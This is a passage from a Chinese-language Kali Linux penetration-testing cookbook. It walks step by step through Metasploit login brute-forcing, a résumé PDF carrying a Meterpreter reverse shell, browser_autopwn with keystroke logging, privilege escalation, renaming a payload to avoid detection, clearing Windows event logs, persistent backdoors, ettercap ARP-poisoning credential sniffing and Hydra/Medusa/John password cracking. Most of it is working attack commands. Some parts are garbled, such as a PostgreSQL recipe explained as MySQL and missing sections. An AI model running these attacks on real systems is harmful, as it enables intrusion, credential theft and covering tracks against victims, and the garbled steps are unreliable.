在这个配方中，我们将探索如何使用 `Metasploit` 通过 `PostgreSQL Scanner` 模块攻击 PostgreSQL 数据库服务器。PostgreSQL 被誉为世界上最先进的开源数据库，并被许多爱好者认为是企业级数据库。我们将使用 `Metasploit` 来暴力破解 PostgreSQL 登录。

160

第 6 章

### 准备工作
需要满足以下要求：
- 连接到内部网络
- 在我们的黑客实验室中运行 Metasploitable
- 用于执行字典攻击的字典列表（Wordlist）

## 如何操作...
让我们通过打开终端窗口开始 PostgreSQL 攻击：

1. 打开命令提示符。
2. 启动 `MSFCONSOLE`：
```
msfconsole
```
3. 搜索所有可用的 PostgreSQL 模块：
```
search postgresql
```
161

漏洞利用
4. 使用 PostgreSQL Scanner 模块：
```
use auxiliary/scanner/postgres/_login
```
5. 显示模块的可用选项：
```
show options
```
6. 将 `RHOST` 设置为你的 Metasploitable 2 机器或目标主机：
```
set RHOST 192.168.10.111
```
7. 设置你的用户名文件位置。这是你选择的用户文件列表：
```
set user_file /root/Desktop/usernames.txt
```
8. 设置你的密码文件位置。这是你选择的密码文件列表：
```
set pass_file /root/Desktop/passwords.txt
```
9. 运行利用：
```
Exploit
```
162

第 6 章

## 工作原理...
在这个配方中，我们使用 `Metasploit` 的 `MSFCONSOLE` 利用了我们目标 Metasploitable 2 主机上的 MySQL 漏洞。我们首先启动控制台并搜索所有已知的 MySQL 漏洞。在选择 MySQL 登录利用（它允许我们暴力破解 MySQL 登录）后，我们设置了选项并执行了利用。

### 更多内容...
在这个配方中，我们使用了自定义生成的用户名和密码文件。生成用户名字典列表和密码文件有许多方法，第 8 章

## Metasploitable Tomcat
在这个配方中，我们将探索如何使用 `Metasploit` 通过 Tomcat 模块攻击 Tomcat 服务器。Tomcat 或 Apache Tomcat 是用于运行 Java Servlet 和 Java 页面（JSP）的开源 Web 服务器和服务容器。它是用纯 Java 编写的。

### 准备工作
需要满足以下要求：
- 连接到内部网络
- 在我们的黑客实验室中运行 Metasploitable
- 用于执行字典攻击的字典列表（Wordlist）

## 如何操作...
让我们通过打开终端窗口开始此配方：

1. 打开终端窗口。
2. 启动 `MSFCONSOLE`：
```
msfconsole
```
3. 搜索所有可用的 Tomcat 模块：
```
search tomcat
```
4. 使用 Tomcat 登录工具：
```
use auxiliary/scanner/http/tomcat_mgr_login
```
5. 显示模块的可用选项：
```
show options
```
注意我们有很多项目被设置为 yes 是所需的。我们将使用它们的默认值。
6. 设置 `PASS_FILE`：
```
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```
7. 设置 `USER_FILE`：
```
set USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```
8. 设置目标 `RHOST`。在这种情况下，我们将选择我们的 Metasploitable 2 机器：
```
set RHOSTS 192.168.10.111
```
9. 将 `RPORT` 设置为 `8180`：
```
set RPORT 8180
```
10. 运行利用：
```
Exploit
```

## 工作原理...
在这个配方中，我们使用 `Metasploit` 的 `MSFCONSOLE` 利用了我们目标上的 Tomcat 漏洞


目标是 Metasploitable 2 主机。我们首先启动控制台并搜索所有已知的 Tomcat 漏洞。在选择了 Tomcat 登录漏洞（它允许我们对 Tomcat 登录进行暴力破解）后，我们设置了选项并执行了漏洞利用。Metasploit 会尝试进入两个文件中包含的所有用户名和密码的组合。在起的登录和密码组合旁找到 `+` 符号。

## Metasploitable PDF

在本教程中，我们将探索如何使用 Metasploit，通过 `Adobe PDF Embedded` 模块利用便携式文档格式 (PDF) 文档进行攻击。`Adobe PDF` 是用于向另一方传输文档的一种极被广泛使用的标准。由于其广泛的使用（特别是在业务用途中），我们将通过让用户认为他们正在打开一封来自求职者的合法 PDF 文档来对用户的机器进行攻击。

### 准备工作

需要满足以下要求：

- 与内部网络建立连接
- 在我们的黑客实验室中运行 Metasploitable
- 用于执行字典攻击的字典列表

## 如何操作...

让我们从打开终端窗口开始该过程：

1. 打开终端窗口。
2. 启动 `MSFCONSOLE`：

```
msfconsole
```

165


### 漏洞利用

3. 搜索所有可用的 PDF 模块：

```bash
search pdf
```

4. 使用 `Adobe PDF Embedded EXE Social Engineering`：

```bash
use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

5. 显示模块的可用选项：

```bash
show options
```

166


第 6 章

6. 设置我们要生成的 PDF 文件名：

```bash
set FILENAME evildocument.pdf
```

7. 设置 `INFILENAME` 选项。这是你有权使用的 PDF 文件的位置。在这种情况下，我正在使用位于桌面上的一个简历：

```bash
set INFILENAME /root/Desktop/willie.pdf
```
注意，该模块的所有选项都设置为可选，除 `INFILENAME` 选项外外。

8. 运行漏洞利用：

```bash
exploit
```

## 工作原理...

在本教程中，我们使用 Metasploit 的 `MSFCONSOLE` 来利用并创建一个包含 `Meterpreter` 后门的 Adobe PDF 文件。我们首先启动控制台并搜索所有已知的 PDF 漏洞。在选择了 `Embedded EXE PDF` 漏洞（它允许我们在合法的 PDF 中隐藏后门程序）后，我们设置了选项并执行了漏洞。Metasploit 将生成一个带有 `Windows Reverse TCP Payload` 的 PDF。当你的目标打开 PDF 文件时，`Meterpreter` 将打开确认并激活会话。

## 实现 browser_autopwn

Browser Autopwn 是 Metasploit 提供的一个辅助模块，它允许当受害者访问网页时简单地对目标机器进行自动化攻击。Browser Autopwn 在攻击之前会对客户端进行指纹识别；这意味着它不会针对 Internet Explorer 7 浏览器尝试 Mozilla Firefox 漏洞。根据对浏览器的判断，它会决定部署哪种漏洞最佳。

### 准备工作

需要连接到互联网或内部网络来完成本教程。

167


### 漏洞利用

## 如何操作...

让我们从打开终端窗口开始：

1. 打开终端窗口。
2. 启动 `MSFCONSOLE`：

```bash
msfconsole
```

3. 搜索 `autopwn` 模块：

```bash
Search autopwn
```

4. 使用 `browser_autopwn` 模块：

```bash
Use auxiliary/server/browser_autopwn
```

5. 设置我们的负载荷。在这种情况下，我们使用 Windows Reverse TCP：

```bash
set payload windows/meterpreter/reverse_tcp
```

6. 显示此类负载荷的选项：

```bash
show options
```

7. 设置建立反连接的主机 IP 地址。在这种情况下，PC 的 IP 地址为 `192.168.10.109`：

```bash
set LHOST 192.168.10.109
```

8. 接下来，我们要设置 `URIPATH`。在这种情况下，我们使用 `"filetypes"`（带引号）：

```bash
set URIPATH "filetypes"
```

9. 最后，我们启动漏洞利用：

```bash
exploit
```

10. Metasploit 在 IP 地址 `http://[Provided IP Address]:8080` 启动漏洞利用。
11. 当访问访问该地址时，`browser_autopwn` 模块尝试连接用户机器以建立远程会话。如果成功，`Meterpreter` 将确认会话。要激活会话，使用 `session` 命令：

```bash
session -I 1
```

168


第 6 章

12. 要显示我们可以运行的 `Meterpreter` 命令列表，输入 `help`：

```bash
help
```

13. 将显示可用命令列表。在这种情况下，我们启动：

```bash
keys_start
```

14. 要从受害者处获取击键记录，我们发布：

```bash
keys_dump
```

## 工作原理...

在本教程中，我们使用 Metasploit 的 `MSFCONSOLE` 利用并创建一个包含 `Meterpreter` 后门的 Adobe PDF 文件。我们首先启动控制台并搜索所有已知的 PDF 漏洞。在选择了 `autopwn` 模块后，我们设置了负载荷 `windows_reverse_tcp`；如果利用成功，我们可以获取连接。当访问访问地址时，`Meterpreter` 将确认会话。

169

## 7 权限提升

权限提升 (Escating Privileges)

在本章中，我们将涵盖：

- 使用令牌
- 本地权限提升
- 社交工程工具 (SET)
- 收集受害者数据
- 清理痕迹
- 创建持久化后门
- 人间中间 (MITM) 攻击

## 引言

一旦我们访问了计算机，尽可能提升我们的权限很重要。通常我们获得低权限访问；在本章中我们将探索各种方法。

使用令牌

在本教程中，我们将模拟另一个用户。令牌包含登录信息并识别用户、组和权限。当用户登录系统时，他们会获得访问令牌。令牌模拟允许我们提升权限。

## 权限提升

### 准备工作

执行此教程我们需要：

- 连接到互联网或内网
- 还需要目标机器

## 如何操作...

我们从 `Meterpreter` shell 开始探索令牌。你必须使用 Metasploit 攻击主机以获取 `Meterpreter` shell。你可以使用第 6 章漏洞利用中的任何一个教程来访问主机。

1. 从 Meterpreter 我们通过使用 `incognito` 开始模拟过程：

```bash
use incognito
```

2. 通过发布 `help` 命令显示 `incognito` 的帮助：

```bash
help
```

3. 你会注意到有几个可用选项。
4. 接下来我们要获取当前登录系统或最近访问系统的可用用户列表。我们通过执行带有 `-u` 选项的 `list_tokens` 命令来实现：

```bash
list_tokens -u
```

172


第 7 章

5. 接下来，运行模拟攻击。使用 `impersonate_token` [要模拟的账户名称] 的语法为：

```bash
impersonate_token \\willie-pc\willie
```

6. 最后，运行 shell 命令。如果成功，我们现在以另一个用户的身份使用当前系统。


在本配方中，我们从一个被攻破的主机开始，然后使用 `Meterpreter` 来冒充机器上另一个用户的令牌（token）。冒充攻击的目标是尽可能选择最高级别的用户，最好是那些也跨域网连接的用户，并利用其账户进一步渗透网络。

## 本地权限提升攻击

在本配方中，我们将对被攻破的机器提升权限。本地权限提升允许我们利用当前已连接的系统，获取系统或域网用户账户的访问权限。

### 准备工作

要执行此配方，我们需要以下条件：

- 与互联网或局域网的连接
- 还需要一台使用 `Metasploit` 框架的被攻破机器

173


### 提升权限

## 如何操作...

让我们开始从 `Meterpreter`  shell 中执行本地权限提升攻击的过程。你必须使用 `Metasploit` 攻击主机以获取 `Meterpreter`  shell。你可以使用第 6 章“利用漏洞”中的任意一个配方，通过 `Metasploit` 访问主机。

1. 一旦你使用带有 `Meterpreter` 负载的 `Metasploit` 漏洞访问了受害者，等待你的 `Meterpreter` 提示符显示：
2. 接下来，为了查看 `getsystem` 命令的帮助文件，我们运行 `-h` ：
```
getsystem -h
```
3. 最后，我们在不带任何属性的情况下运行 `getsystem`：
```
getsystem
```
如果你正尝试访问 Windows 7 机器，必须在运行 `getsystem` 命令之前运行 `bypassuac` 命令。

`BypassUAC` 允许你绕过微软用户账户控制（http://windows.microsoft.com/en-us/windows7/products/features/user-account-control）。该运行方式如下：
```bash
run post/windows/escalate/bypassuac
```
4. 接下来，我们执行最后的命令来获取访问。
5. 好了！我们成功执行了提升攻击！

## 工作原理...

在本配方中，我们使用 `Meterpreter` 对受害者机器执行本地权限提升攻击。我们从 `Meterpreter` shell 开始配方。然后我们运行了 `getsystem` 命令，该命令允许 `Meterpreter` 尝试提升我们在系统上的凭据。如果成功，我们将获得受害者机器的系统级访问权限。

174


# 第 7 章：精通社会工程工具包 (SET)

在本配方中，我们将探索`社会工程工具包(SET)`。`SET` 是一个包含多种工具的框架，允许你通过欺骗手段攻击受害者。`SET` 由 David Kennedy 设计。该工具已迅速成为渗透测试人员工具箱中的标准。

## 如何操作...

精通 `SET` 的步骤如下：

1. 点击终端图标打开终端窗口并访问包含 `SET` 的目录：
```bash
se-toolkit
```
2. 一旦接受，你将看到 `SET` 菜单。`SET` 菜单有以下选项：
- 社会工程攻击 (Social-Engineering Attacks)
- 快速渗透测试 (Fast-Track Penetration Testing)
- 第三方模块 (Third Party Modules)
- 更新 `Metasploit Framework`
- 更新 `Social-Engineer Toolkit`
- 更新 `SET` 配置
- 帮助、致谢和关于
- 退出 `Social-Engineer Toolkit`

在运行攻击之前，更新 `SET` 是个好主意，因为作者经常发布更新。

175


### 提升权限

可以在下面的截图看到这些选项：

3. 出我们的目的，我们将选择第一个选项来启动社会工程攻击：1
4. 现在我们看到了一个社会工程攻击列表，如下截图所示。出于我们的目的，我们将使用 `Create a Payload and Listener`（创建负载和监听器，选项 4）：4
176

5. 接下来，我们被要求输入用于反向连接（reverse connect）的负载 IP 地址。在这种情况下，我们输入自己的 IP 地址：
```
192.168.10.109
```
177

6. 你将看到为 `Payload and Listener` 选项要生成的负载列表及其描述。选择 `Windows Reverse_TCP Meterpreter`。这将允许我们连接到目标并对其执行 `Meterpreter` 负载：2
7. 最后，你会被要求指定一个端口作为监听器端口。已经为你选择了端口 `443`，我们将选择这个：443
8. 一旦负载完成，你会被要求启动监听器：Yes
178


## 工作原理...

在本配方中，我们探索了 `SET` 的用法。`SET` 拥有一个菜单，可以简单地生成用于欺骗受害者的工具。在配方的最后，`SET` 为我们提供了结果。

更多内容...

## 将负载交付给受害者

将负载交付给受害者的步骤如下：

1. 在 `SET` 中，你会注意到有一个执行文件 `msf.exe`。为了避免检测，我们将其重命名为 `explorer.exe`：
```bash
mv msf.exe explorer.exe
```
2. 然后我们列出目录下的所有项：
```bash
ls
```
3. 接下来，我们要将文件重命名为 `healthyfiles`：
```bash
mv explorer.exe healthyfiles
```
4. 现在我们已经有了 `healthyfiles`，我们将将其压缩：
```bash
zip healthyfiles
```
5. 在这种情况下，我们可以将其放在 U 盘中并在受害者机器上打开。我们也可以通过电子邮件系统分发。

179


## 收集受害者数据

在本配方中，我们将探索如何使用 `Metasploit` 收集受害者的数据。有多种方法完成此任务，但我们将探索记录被攻破机器上的用户的键。收集受害者数据允许我们可能获取用于进一步利用的其他信息。

### 准备工作

要执行此配方，我们需要以下条件：

- 与互联网或局域网的连接
- 还需要一台使用 `Metasploit` 框架的被攻破机器

## 如何操作...

让我们开始从 `Meterpreter` shell 中收集受害者数据的过程。你必须使用 `Metasploit` 攻击主机以获取 `Meterpreter` shell。你可以使用第 6 章“利用漏洞”中的任意一个配方，通过 `Metasploit` 访问主机。

1. 一旦你使用带有 `Meterpreter` 负载的 `Metasploit` 漏洞访问了受害者，等待你的 `Meterpreter` 提示符显示：
2. 接下来，我们执行以下命令开始键键记录：
```bash
keyscan_start
```
3. 最后，我们发出 `keyscan_dump` 命令将用户的按键输出到屏幕：
```bash
keyscan_dump
```

180


## 工作原理...

在本配方中，我们使用 `Meterpreter` 收集了受害者的数据。


有几种不同的方法可以从受害者机器上收集数据。在本教程中，我们使用了 `Metasploit` 和 `Meterpreter` 键扫描记录按键，但我们也可以轻松地使用 `Wireshark` 或 `airodump-ng` 来收集数据。

这里的关键在于探索其他工具，以便你找到最适合完成目标的工具。

## 清理痕迹

在本教程中，我们将使用 `Metasploit` 来擦除我们的痕迹。在攻破主机后进行清理是一个极其重要的步骤，因为你不想在费了很大力获取访问权限后却被发现。幸运的是，`Metasploit` 有一种非常简单的方法让我们清理痕迹。


## 权限提升

### 准备工作

执行此教程我们需要以下条件：
- 与互联网或内网的连接
- 还需要一台使用 `Metasploit` 框架的受控机器

## 如何操作...

要执行的步骤如下：

1. 让我们从 `Meterpreter` shell 开始清理痕迹的过程。你将必须使用 `Metasploit` 攻击主机以获取 `Meterpreter` shell。你可以使用第 6 章“利用漏洞”中的任一个教程，使用 `Metasploit` 访问主机。一旦你使用带有 `Meterpreter` 负载的 `Metasploit` 漏洞访问了受害者，请等待 `Meterpreter` 提示符显示：

2. 接下来，我们需要运行 `IRB` 以开始删除日志的过程。我们打开帮助文件：
```
irb
```

3. 接下来，我们告诉 `IRB` 我们想要删除哪些日志。以下是某些可选选项。
- `log = client.sys.eventlog.open('system')`
- `log = client.sys.eventlog.open('security')`
- `log = client.sys.eventlog.open('application')`
- `log = client.sys.eventlog.open('directory service')`
- `log = client.sys.eventlog.open('dns server')`
- `log = client.sys.eventlog.open('file replication service')`


4. 为了我们的目的，我们将清除所有日志。你必须逐个输入这些命令。
```
log = client.sys.eventlog.open('system')
log = client.sys.eventlog.open('security')
log = client.sys.eventlog.open('application')
log = client.sys.eventlog.open('directory service')
log = client.sys.eventlog.open('dns server')
log = client.sys.eventlog.open('file replication service')
```

5. 现在，我们执行命令来删除日志文件：
```
Log.clear
```

6. 大好了！只需几条命令，我们就能够掩盖自己的痕迹了！

## 工作原理...

在本教程中，我们使用 `Meterpreter` 在受控主机上掩盖痕迹。我们从一个 `Meterpreter` shell 开始教程，并启动了 `IRB`（一个 Ruby 解释器 shell）。接下来，我们精确指定了想要删除哪些文件，并通过发布 `Log.clear` 命令清除日志来结束教程。记住，你希望在攻破主机后最后执行这一步；你不想在掩盖痕迹后又执行另一个功能从而添加更多的日志条目，以此类推。

## 创建持久化后门

在本教程中，我们将使用 `Metasploit` 持久化创建一个持久化后门。一旦你成功访问受控机器，你将希望找到无需再次破入就能重新访问机器的方法。如果受控机器的用户执行了某些中断连接的操作（例如重启机器），使用后门将允许连接重新建立到你的机器。这就是创建后门的用武之处，因为它允许你保持对之前被攻破机器的访问权限。

### 准备工作

执行此教程我们需要以下条件：
- 与互联网或内网的连接
- 还需要一台使用 `Metasploit` 框架的受控机器


## 权限提升

## 如何操作...

让我们开始安装持久化后门的过程。你将必须使用 `Metasploit` 攻击主机以获取 `Meterpreter` shell。你可以使用第 6 章“利用漏洞”中的任一个教程，使用 `Metasploit` 访问主机。

1. 一旦你使用带有 `Meterpreter` 负载的 `Metasploit` 漏洞访问了受害者，请等待 `Meterpreter` 提示符显示：

2. 接下来，我们需要运行 `persistence` 来设置我们的后门。我们打开帮助文件：
```
run persistence -h
```

3. `persistence` 后门有很多选项，包括：
- `-A`: 此选项会自动启动一个多处理器处理器来连接到代理。
- `-S`: 此选项允许后门作为服务自动启动。
- `-U`: 此选项允许后门在用户启动时自动启动。
- `-i`: 此选项设置返回攻击者机器的尝试间隔秒数（秒）。
- `-p`: 此选项设置 `Metasploit` 在攻击者机器上监听的端口。
- `-P`: 此选项设置要使用的负载（默认是 `reverse_tcp`，这在中间人攻击中是常用的）。
- `-r`: 此选项设置攻击者的 IP 地址。

4. 现在，我们执行命令来设置后门：
```
run persistence -U -i 10 -p 8090 -r 192.168.10.111
```


5. 如果成功，你会看到 `Meterpreter` 会话！

## 工作原理...

在本教程中，我们使用 `Meterpreter` 在受控主机上设置了持久化。我们从一个 `Meterpreter` shell 开始教程，并在入侵后启动了 `persistence`。接下来，我们通过查看帮助文件探索了某些可用选项。最后，通过运行安装命令完成了设置。

## 中间人攻击 (MITM)

在本教程中，我们将对一个目标进行中间人（MITM）攻击。中间人攻击的工作原理允许我们监听目标与其合法方之间的通信。在我们的示例中，我们可以利用 `ettercap` 监听对 `yahoo.com` 的通信。

### 准备工作

执行此教程我们需要以下条件：
- 与网络的连接
- 一台接入网络的机器


## 权限提升

## 如何操作...

让我们通过启动 `ettercap` 开始中间人攻击。

1. 打开终端窗口并启动 `ettercap`。使用 `-G` 选项启动图形用户界面（GUI）：
```
ettercap -G
```

2. 我们通过开启统一嗅探开始过程。你可以按下 `Shift+U` 或使用菜单进入 `Sniff|Unified sniffing...`，如下图所示：


3. 选择网络接口。在使用中间人攻击的情况下，我们应该选择我们的无线接口：

4. 接下来，我们需要开启主机扫描。这可以通过按下 `Ctrl+S` 或使用菜单进入 `Hosts|Scan for hosts` 完成，如下图所示：


5. 接下来，我们调出主机列表。你可以按下 `H` 或使用菜单进入 `Hosts|Host List:`：

6. 接下来，我们需要选择并设置目标。在我们的情况下，通过高亮其 IP 地址并点击 `Add To Target 1` 按钮将 `192.168.10.111` 设置为目标 1：

7. 如果成功，你会看到 `Meterpreter` 会话！

8. 现在，我们能够允许 `ettercap` 开始嗅探。你可以按下 `Ctrl+W` 或使用菜单进入 `Start|Start Sniffing:`：

9. 最后，我们开始 ARP 毒化过程。从菜单进入 `Mitm|Arp poisoning...`


# 第 7 章

9. 在弹出的窗口中，检查 `Sniff` 远程连接的可选参数。

10. 根据网络流量，我们将开始看到以下信息：

189


### 提升权限

11. 一旦我们找到了正在寻找的内容（用户名和密码），我们将关闭 `Ettercap`。你可以通过按下 `Ctrl+E` 或使用菜单并到 `Start|Stop sniffing` 来实现此操作：

12. 现在我们需要关闭 `ARP Poisoning` 并让网络恢复正常：

## 工作原理...
本教程包含了一种中间人（MITM）攻击，该攻击的原理是通过使用 ARP 数据包投毒来窃听用户传输的无线通信。

你可以通过访问以下网址了解更多关于中间人攻击的信息：
http://en.wikipedia.org/wiki/Man-in-the-middle_attack#Example_of_an_attack.

190
8

## 密码攻击

在本章中，我们将涵盖以下内容：
- 在线密码攻击
- 破解 HTTP 密码
- 获取路由器访问
- 密码分析
- 使用 John the Ripper 破解 Windows 密码
- 使用字典攻击
- 使用彩虹表
- 使用 nVidia 计算统一设备架构 (CUDA)
- 使用 ATI Stream
- 物理访问攻击

## 简介
在本章中，我们将探索各种破解密码的方法以获取用户账户的访问权限。破解密码是渗透测试人员都会使用的任务。本质上，任何系统中最不安全的就是用户提交的密码。无论密码策略如何，人类不可避免地讨厌输入强密码或按要求的频率重置密码。这使得他们成为黑客的攻击目标。


## 密码攻击

## 在线密码攻击
在本教程中，我们将使用 `THC-Hydra` 密码破解器 (`Hydra`)。某些时候，我们有时间物理攻击基于 Windows 的计算机并直接获取`安全帐户管理器(SAM)`。然而，也有时候我们无法做到这一点，这时在线密码攻击就证明是最有益的。

`Hydra` 支持许多协议，包括但不限于 `FTP`、`HTTP`、`HTTPS`、`MySQL`、`MSSQL`、`Oracle`、`Cisco`、`IMAP`、`VNC` 等！但要小心，这种攻击可能会产生噪音，从而增加你被发现的概率。

### 准备工作
完成本教程需要连接到互联网或内域网，以及一台我们可以作为受害者的计算机。

## 如何操作...
让我们开始破解在线密码的过程。

1. 从开始菜单，选择 `Applications|Kali Linux|Password Attacks|Online Attacks|hydra-gtk`。

192


2. 现在我们已经启动了 `Hydra`，我们需要设置我们的字典列表。点击 `Password` 标签页。我们将使用用户名列表和密码列表。输入你的用户名和密码列表的位置。还要选择 `Loop around users`（循环用户）和 `Try empty password`（尝试空密码）。

- 用户名列表：`/usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-passwd/names/nameslist.txt`
- 密码列表：`/usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-passwd/passwds/john.txt`

你可以使用的快捷方法是在字典列表框内单击以调出文件系统窗口。

193


3. 接下来，我们将调整攻击。在 `Performance Options` 下，我们将任务数从 `16` 设置为 `2`。这样做的原因是我们不希望运行这么多进程以导致服务器崩溃。虽然是可选的，但我们也想设置 `Exit after first found pair`（找到第一对匹配后退出）选项。

4. 最后，我们将针对目标。点击 `Target` 标签页并设置我们想要攻击的目标和协议。在案例中，我们正在使用 Metasploitable 机器的 `MySQL` 端口 (`192.168.10.111`)。

194


5. 最后，通过点击 `Start` 标签页并按下 `Start` 按钮来执行利用。

195


## 工作原理...
在本教程中，我们使用 `Hydra` 对目标执行了字典攻击。`Hydra` 的原理允许我们指定目标并使用字典列表。它尝试使用用户名和密码列表的各种组合来暴力破解密码。

### 破解 HTTP 密码
在本教程中，我们将使用 `THC-Hydra` 密码破解器 (`Hydra`) 破解密码。如今，我们处于网络社会。随着大多数家庭都有网络化计算机，路由器成为了通信的基石。

### 准备工作
完成本教程需要连接到互联网或内域网。还需要一个可路由器。

## 如何操作...
让我们开始破解密码的过程。

1. 从开始菜单导航到 `Applications|Kali Linux|Password Attacks|Online Attacks|hydra-gtk`。当 `Hydra` 启动时，它会加载其帮助文件。

2. 现在我们带有选定的选项运行 `Hydra`：
```
medusa -M http -h 192.168.10.1 -u admin -P /usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-passwd/passwds/john.txt -e ns -n 80 -F
```
- `-M http` 允许我们指定模块。在案例中，我们选择了 `HTTP` 模块。
- `-h 192.168.10.1` 允许我们指定主机。在案例中，我们选择了 `192.168.10.1`（路由器的 IP 地址）。
- `-u admin` 允许我们指定用户。在案例中，我们选择了 `admin`。
- `-P [密码列表位置]` 允许我们指定密码列表的位置。
- `-e ns` 允许我们指定额外的密码检查。`ns` 变量允许我们将用户名作为密码并使用空密码。

获取路由器访问
（此部分文本未完整或合并在源文本中）

密码分析
（此部分文本未完整或合并在源文本中）

使用 John the Ripper 破解 Windows 密码
（此部分文本未完整或合并在源文本中）


# 第 8 章

- `-n 80` 允许我们指定端口号。在此例中，我们选择了 `80`。
- `-F` 允许我们在成功使用用户名和密码组合后停止审核。
3. `Medusa` 将运行并尝试所有的用户名和密码组合，直到其中一个成功为止。

## 工作原理...
在本用例中，我们使用 `Medusa` 对目标路由器的密码进行暴力破解。能够这样操作的好处是，一旦你访问了路由器，就可以更新其设置，以便将来再次访问，甚至可以将发送到路由器的流量重定向到你选择的备用位置。

### 更多...
你也可以通过执行 `medusa` 命令直接从命令行运行 `Medusa`。你还可以根据自己的情况向 `Medusa` 传递其他选项。请查看帮助文件——只需在终端窗口中输入 `medusa`——即可获取更多详情。

## 模块类型
以下是我们可以配合 `Medusa` 使用的模块列表：
- AFP
- CVS
- FTP
- HTTP
- IMAP
- MS-SQL
- MySQL
- NetWare
- NNTP
- PCAnywhere
- Pop3
- PostgreSQL


## 密码攻击
- REXEC
- RLOGIN
- RSH
- SMBNT
- SMTP-AUTH
- SMTp-VRFY
- SNMP
- SSHv2
- Subversion
- Telnet
- VMware Authentication
- VNC
- Generic Wrapper
- Web form

## 密码分析
在本例中，我们将学习在开始密码攻击之前如何对密码进行分析。密码分析的目的是通过收集针对目标机器、业务等的信息，使我们能够获得更小的字典列表。在教程中，我们将使用 `Ettercap` 及其 ARP 投毒功能来嗅探流量。

### 准备工作
完成此用例需要连接到本地网络。

## 如何操作...
让我们通过启动 `Ettercap` 开始密码分析过程。

1. 我们首先通过配置 `Ettercap` 开始本用例。首先，找到它的配置文件并使用 `VIM` 进行编辑。
```bash
locate etter.conf
vi /etc/etterconf
```
注意，你的位置可能有所不同。

2. 将 `ec_uid` 和 `ec_gid` 的值改为 `0`。


3. 接下来我们需要取消文件末尾 `LINUX` 部分下以下 `IPTABLES` 行的注释：
4. 现在，我们终于准备好启动 `Ettercap` 了。使用 `-G` 启动图形用户界面 (GUI)。
```bash
ettercap -G
```


5. 我们通过开启统一嗅探开始过程。你可以按下 `Shift+U`，或者使用菜单导航到 `Sniff|Unified sniffing...`。
6. 选择网络接口。
7. 接下来，我们开启主机的 `Scan` 功能。这可以通过按下 `Ctrl+S` 或使用菜单导航到 `Hosts|Scan for hosts` 来实现。
8. 现在我们可以允许 `Ettercap` 开始嗅探。你可以按下 `Ctrl + W` 或使用菜单导航到 `Start|Start Sniffing`。


9. 最后，我们开始 ARP 投毒过程。从菜单导航到 `Mitm|Arp poisoning`。
10. 在弹出的窗口中，勾选 `Sniff remote connections` 的可选参数。
11. 根据网络流量，我们将开始看到相关信息。


12. 一旦我们找到了寻找的内容（用户名和密码），我们就关闭 `Ettercap`。你可以通过按下 `Ctrl+E` 或使用菜单导航到 `Start|Stop sniffing` 来实现。
13. 现在我们需要关闭 ARP 投毒并让网络恢复正常。

## 工作原理...
在本例中，我们使用 `Ettercap` 对网络进行投毒，并从网络中窃取用户名和密码。我们在开始用例时，通过定位并修改 `Ettercap` 的配置文件开始操作的。接着，我们启动了 `Ettercap` 并使用 ARP 投毒执行了中间人 (MITM) 攻击。当流量被重定向到我们的机器时，我们能够看到用户在网络传输的用户名和密码。

### 更多...
我们还可以使用 `Metasploit` 来分析用户名。我们将使用 `search_collector` 模块执行此操作。

1. 打开终端窗口并启动 `msfconsole`：
```bash
msfconsole
```
2. 搜索邮件收集器：
```bash
search email collector
```
3. 执行命令使用搜索邮件收集器模块：
```bash
use auxiliary/gather/email_collector
```
4. 显示模块的可用选项：
```bash
show options
```
5. 接下来我们设置域名。请谨慎做出选择！你可不想让联邦当局敲你的家门！
6. 使用你所需的域名设置域名：
```bash
set domain gmail.com
```
7. 设置输出文件。这并不是必须的，是可选的。如果你打算运行多次攻击或希望能够再次运行，则建议使用此项。
```bash
set output /path/to/file
```
8. 最后，我们运行。

## 使用 John the Ripper 破解 密码
在本例中，我们将使用 John the Ripper 破解 Windows 密码。`John the Ripper` 用于 `SAM` 文件。

### 准备工作
你需要访问 Windows 机器并需要一个 `SAM` 文件。在本用例中，假设你已经访问了 Windows 机器。

## 如何操作...
让我们通过 `John the Ripper` 开始破解 `SAM` 文件的过程。假设你通过远程黑客或物理访问了计算机。

1. 检查要挂载的硬盘：
```bash
fdisk -l
```


2. 挂载硬盘并将 `/target` 设置挂挂点：
```bash
mount /dev/sda1 /target
```
3. 进入 `SAM` 文件所在的目录：
```bash
cd /target/windows/system32/config
```
4. 列出目录下所有内容：
```bash
ls -al
```
5. 使用 `samdump2` 提取哈希并放在根用户目录的 `hashes` 文件夹下：
```bash
samdump2 system > /root/hashes/hash.txt
```
6. 进入 John the Ripper 目录：
```bash
cd /pentest/passwords/john
```
7. 运行 John the Ripper：
```bash
./john /root/hashes/hash.txt
```
（如果在 NTFS 系统上攻击）

## 使用字典攻击
在本例中，我们将检查字典或词列表攻击。字典攻击使用预设的密码集，并尝试对给定用户进行暴力破解匹配。通常生成三种类型的字典列表：
- 仅用户名：仅生成的用户名的列表。
- 仅密码：仅生成的密码的列表。
- 用户名和密码列表：包含生成的用户名和密码的列表。

为了演示，我们将利用 `Crunch` 生成自己的字典。

### 准备工作
此用例需要在你的 Kali 安装中安装 `Crunch`。


## 如何操作...
Kali 与 BackTrack 的不同之处在于，Kali 已经包含了 `Crunch`。

1. 打开终端窗口并输入 `crunch` 命令以查看 `Crunch` 帮助文件：
```bash
crunch
```


- `-o`: 此选项允许你指定输出单词列表的文件和位置。
- `-b`: 此选项允许你指定每个文件写入的最大字节数。大小可以用 KB/MB/GB 指定，并且必须与 `-o` START 触发器配合使用。
- `-t`: 此选项允许你指定要使用的模式。
- `-l`: 此选项在使用 `-t` 选项时识别某些占位符的字面字符（`@`、`%`、`^`）。

4. 接下来，我们执行命令在桌面上创建一个密码列表，长度最小为 8 个字符，最大 10 个字符，并使用字符集 `ABCDEFGabcdefg0123456789`。

```bash
crunch 8 10 ABCDEFGabcdefg0123456789 -o /root/Desktop/ generatedCrunch.txt
```


# 第 8 章

5. 一旦生成文件，我们使用 `nano` 打开该文件：

```bash
nano /root/Desktop/generatedCrunch.txt
```

## 工作原理...
在本教程中，我们使用 `Crunch` 生成了密码字典列表。

## 使用彩虹表
在本教程中，我们将学习如何在 Kali 中使用彩虹表。彩虹表是特殊的字典表，它们使用哈希值而不是标准字典密码来实现攻击。为了演示之目的，我们将使用 `RainbowCrack` 来生成彩虹表。

## 如何操作...
1. 打开终端窗口并切换目录到 `rtgen` 目录：
```bash
